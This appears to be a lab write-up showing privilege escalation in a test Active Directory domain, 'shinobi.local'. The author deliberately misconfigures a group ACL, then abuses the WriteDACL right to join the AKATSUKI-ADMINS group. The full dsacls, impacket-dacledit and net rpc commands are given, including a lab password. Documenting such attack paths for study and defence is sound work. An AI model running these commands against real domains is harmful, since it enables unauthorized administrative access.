

DACL Abuse (WriteDACL on Group)
Hypothesis: Continuing our analysis of tanjiro_kamado21's outbound rights, we examined their permissions over security groups. We hypothesized that WriteDACL privileges might exist not just on users, but on groups as well.
Findings: BloodHound identified a WriteDacl edge from tanjiro_kamado21 to the AKATSUKI-ADMINS group.
Impact: While Tanjiro cannot currently add himself to the group, the WriteDACL permission allows him to modify the rules of the group. He can use this to grant himself the specific "Add/Remove Self as Member" right, effectively creating a backdoor to administrative access.
Objective: To simulate this misconfiguration, we manually modified the ACL of the AKATSUKI-ADMINS group to grant Write Permissions to Tanjiro.
dsacls.exedsacls.exe "CN=AKATSUKI-ADMINS,CN=Users,DC=shinobi,DC=local" /G shinobi\tanjiro_kamado21:WP
dsacls output confirms tanjiro_kamado21 possesses WRITE PERMISSIONS.
Objective: Abuse the WriteDACL permission to modify the group's ACL. We will specifically grant tanjiro_kamado21 the WriteMembers right, which authorizes him to add users to the group. Tool: impacket-dacledit (A specialized tool for granular DACL modification).
Command:
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'tanjiro_kamado21' -target-dn 'CN=AKATSUKI-ADMINS,CN=USERS,DC=SHINOBI,DC=LOCAL' 'shinobi.local'/'tanjiro_kamado21':'Hinokami@456' -dc-ip 192.168.56.10
Result: The tool confirmed: DACL modified successfully!.
Objective: Confirm the ACL change was applied correctly on the Domain Controller. Command:
dsacls "CN=AKATSUKI-ADMINS,CN=Users,DC=shinobi,DC=local"
Findings: The output now explicitly lists a new ACE for tanjiro_kamado21: SPECIAL ACCESS for Add/Remove self as member. This confirms the attack path is open.
Objective: Utilize the newly granted right to add tanjiro_kamado21 to the AKATSUKI-ADMINS group. Tool: net rpc (Samba).
Command:
net rpc group addmem "AKATSUKI-ADMINS" "tanjiro_kamado21" -U shinobi.local/tanjiro_kamado21%'Hinokami@456' -S 192.168.56.10
Verification: We immediately queried the group members:
net rpc group members "AKATSUKI-ADMINS" ...
Result: tanjiro_kamado21 is now listed as a valid member. The privilege escalation is complete.
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}